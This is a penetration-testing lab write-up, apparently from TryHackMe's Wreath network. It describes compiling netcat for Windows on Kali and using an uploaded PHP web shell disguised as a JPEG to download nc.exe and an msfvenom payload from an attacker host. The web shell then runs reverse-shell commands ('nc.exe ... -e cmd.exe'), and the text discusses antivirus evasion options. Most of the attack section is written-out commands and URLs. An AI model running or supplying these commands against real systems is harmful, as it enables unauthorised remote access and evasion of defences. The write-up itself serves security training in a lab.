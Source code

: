 
Now we have a shell payload which for the time being is not detected by the AV so will compile it using netcat and reverse shell

We have serveral options:
- PowerShell but it may get detected
- PHP reverse shell it may also get picked up
- Msfvenom may generate a distinctive we could use [Veil Framework](https://www.veil-framework.com/) or Shelter
- Uploading netcat is the quickest and easy option.


What is cross-compilation techniques ?_?
The idea is to compile source code into a working program to run on a different platform.
It's an cross compilation skill although in many ways it's preferable to avoid it.

Always try to compile code into an environment as close to the target environment as possible.
Cross-compile x64 windows programs on kali using the mingw-64 package.

It's a big package but just like gcc used to compile binaries on Linux, we can use the mingw compilers to compile windows binaries.

Will run make to build the binary the correct compiler will be used to generate a x64 windows
executable. Note there will be a lot of warnings generated by the compiler.

We have to download the nc.exe from the github and compile it on kali linux.
https://github.com/int0x33/nc.exe/
```
CC=x86_64-w64-mingw32-gcc
```

MakeFile:
![[Pasted image 20240114204304.png]]


Package:
```
sudo apt install mingw-w64
```

![[Pasted image 20240114204927.png]]

Note we have to remove or mv the already compiled binary in order for this to get working.


```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=certutil.exe
```
![[Pasted image 20240120233910.png]]
![[Pasted image 20240114230338.png]]

Cert-util is a default Windows tool that is used to (amongst other things) download CA certificates. This also makes it ideal for file transfers, _but_ Defender flags this as malicious.

```
python3 -m http.server 80
```

As the curl command returned nothing when we were running it on the command line but
```
curl http://10.50.86.241/nc.exe -o c:\\windows\\temp\\nc-sardarji.exe
```
![[Pasted image 20240114231420.png]]

Now we have everything we want for a reverse shell
So will set up a listner and we are good to go
```
nc -lvnp 4242
```

```
powershell.exe c:\\windows\\temp\\nc-sardarji.exe 10.50.86.241 4242 -e cmd.exe
```

The site got hung which means we got a shell
![[Pasted image 20240114231903.png]]

_**Note:** In order for this to work we had to wrap the netcat command inside a powershell process to keep it from exiting early._

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-sardarji.exe%2010.50.86.241%204242%20-e%20cmd.exe
```

I forgot to upload the nc.exe through the curl and was trying to get the reverse shell as a result there was nothing to trigger to get the shell so i got to know where i was doing the mistake.

<hr>

Let's try with the Msfvenom payload and see it's get picked by the AV and what kind of error we get cuz i the real PT situation this what's going to happen.

![[Pasted image 20240121000638.png]]

```
curl http://10.50.86.241/shell.exe -o c:\\windows\\temp\\sardarji-shell.exe
```
![[Pasted image 20240121001603.png]]

```
powershell.exe c:\\windows\\temp\\sardarji-shell.exe 10.50.86.241 4242 -e cmd.exe
```

![[Pasted image 20240121001723.png]]

This is the output we got and in return no shell the AV might deleted the file let's try to access the file and see if it's there or not from the reverse shell that we got. 
I tried to access the file list but i think the AV might have Quarantine the payload
(i.e. At this point the Administrator has also been alerted, along with the security team in a bigger organization.)

